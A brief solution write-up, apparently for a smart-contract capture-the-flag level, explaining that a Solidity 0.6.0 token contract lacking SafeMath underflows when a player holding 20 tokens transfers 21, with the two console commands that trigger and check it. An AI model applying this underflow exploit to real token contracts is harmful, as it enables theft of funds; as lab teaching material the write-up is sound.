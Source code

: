 ## Solution Overview
1. Looking at the code, it's using solidity 0.6.0 and SafeMath is not used, so it's susceptible to integer overflow and underflow issues.
2. Since we have a balance of 20, we'd just need to do a transfer of 21 to trigger an underflow
```
await contract.transfer(contract.address, 21)

// code to check player balance
await contract.balanceOf(player).then(x => x.toString())
```